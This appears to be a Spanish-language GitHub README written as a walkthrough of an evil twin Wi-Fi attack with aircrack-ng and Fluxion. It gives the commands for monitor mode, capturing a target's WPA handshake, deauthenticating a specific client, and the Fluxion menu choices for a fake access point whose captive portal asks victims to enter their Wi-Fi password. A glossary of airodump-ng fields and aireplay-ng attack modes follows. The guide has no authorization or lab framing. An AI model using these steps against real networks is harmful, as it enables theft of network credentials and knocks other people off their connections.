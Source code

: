 # EVIL-TWIN-
Script y en que consiste el ataque evil twin en redes inalambricas

ATAQUE EVIL TWIN CON LA HERRAMIENTAS AIRCRACK-NG Y FLUXION.
*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*

Requisitos para el ataque
*Antena que acepte modo monitor
*kali linux u otro sistema operativo linux

1* Capturar el handshake
2* Clonar la red victima
*Expulsar alos clientes y redirigirlos a nuestra red falsa
4*El usuario debe ingresar sus credenciales en la pagina web
5* Comprabar y comparar el handshake

git clone https://www.github.com/FluxionNetwork/fluxion.git
cd fluxion
./fluxion.sh
./fluxion.sh -i instalamos todas las depencias faltantes

modo monitor
airmon-ng check kill && airmon-ng start wlan0 

identificar Bssid de la red
airodump-ng wlan0

auditar red especifica
airodump-ng -c 11 --bssid 54:71:DD:BF:86:E4 -w /home/avh04/Analisis/captura  wlan0

Esto nos ayuda a obtener en handsheke de la red

desautenticar un dispositivo de la red
aireplay-ng -0 150 -a 54:71:DD:BF:86:E4 -c 74:74:46:c0:ff:d5 wlan0
1

numeros

[1] Portal Cautivo Crea un punto de acceso "gemelo malvado".
[1] fluxwl0  [+] TP-Link TL-WN722N v2/v3 [Realtek RTL8188EUS] En miejemplo. Tu deberasutilizar el nombre detu adaptador de red, llamese wlan0, wlan1, enp0s3 u otro.

[*] Select a wireless interface for target tracking.
3*skip
[*] Seleccione una interaz para realizar jamming.
[1] fluxwl0  [*] TP-Link TL-WN722N v2/v3 [Realtek RTL8188EUS]  
[*] Selecccione una interfaz para el punto de acceso.
4
[*] Select a method of deauthentication                                                                           
[2] aireplay  
[1] hash - cowpatty
[2] cowpatty verification (recommended)


Dato Y nombres presentes en aircrack-ng que son muy importates.
*****************************************************************************************************************************************************************************

airodump-ng 
BSSID: corresponde a la dirección MAC del punto de acceso

PWR: corresponde al nivel de señal reportado por nuestra tarjeta inalámbrica, este valor va a depender del controlador de la tarjeta.

Beacons: corresponde al numero de paquetes-anuncio enviados por el AP,

Data: corresponde al numero de paquetes de datos capturados

CH: corresponde al numero de canal en el que se encuentra la señal del AP.

MB velocidad máxima soportada por el AP

ENC: indica si existe un algoritmo de cifrado en uso; OPN: sin cifrado

ESSID: este campo es conocido generalmente como SSID.

STATION: dirección MAC de cada estación asociada (clientes o usuarios).
********************************************************************************************************************************************************************************

aireplay-ng 
Ataque 0: desautenticacion

Ataque 1: ataque de autenticación falsa

Ataque 2: reenvio interactivo de paquetes

Ataque 3: reinyeccio de petición ARP

Ataque 4: ataque “chopchop” de korek

Ataque 5: ataque de frame.

/*/*/*/*//*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*
CREADOR: AVH04
ANGEL GABRIEL VALDIVIA FLORES

